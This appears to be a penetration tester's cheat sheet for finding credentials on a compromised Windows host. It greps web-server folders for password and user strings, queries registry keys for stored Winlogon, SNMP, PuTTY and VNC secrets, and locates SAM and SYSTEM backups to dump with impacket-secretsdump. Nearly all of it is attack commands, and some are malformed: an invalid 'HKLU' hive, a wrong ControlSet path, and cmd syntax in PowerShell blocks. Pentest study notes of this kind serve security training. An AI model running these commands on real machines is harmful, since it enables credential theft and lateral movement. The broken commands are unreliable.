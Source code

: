 ```ad-note
___

___
*IIS Config and Web Files*

> This also applies to non-standard folders such as "Setup" in C:\ or in "Program Files" etc.

~~~powershell
dir C:\inetpub\wwwroot
~~~

> Looking for all sorts of interesting files matching strings.

~~~powershell
Get-Childitem -Recurse C:\inetpub | findstr -i "directory config txt aspx ps1 bat xml pass user"
~~~

> Apache version

~~~powershell
Get-Childitem -Recurse C:\apache | findstr -i "directory config txt php ps1 bat xml pass user"
~~~

> Xampp version

~~~powershell
Get-Childitem -Recurse C:\xampp | findstr -i "directory config txt php ps1 bat xml pass user"
~~~

*Screenshots*
___

___

*Passwords in Registry Keys*

~~~powershell
reg query HKLM /f password /t REG_SZ /s; reg query HKLU /f password /t REG_SZ /s
~~~

~~~powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
~~~

~~~powershell
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"; reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"; reg query "HKCU\Software\ORL\WinVNC3\Password"; reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
~~~

*Screenshot*
___

___

*SAM and SYSTEM Backup Files*

~~~powershell
cd C:\ & dir /S /B SAM == SYSTEM == SAM.OLD == SYSTEM.OLD == SAM.BAK == SYSTEM.BAK
~~~

> Then run icacls on these files to see if you can copy them. If you can, transfer them to Kali and dump creds.

~~~powershell
impacket-secretsdump -sam SAM.OLD -system SYSTEM.OLD LOCAL
```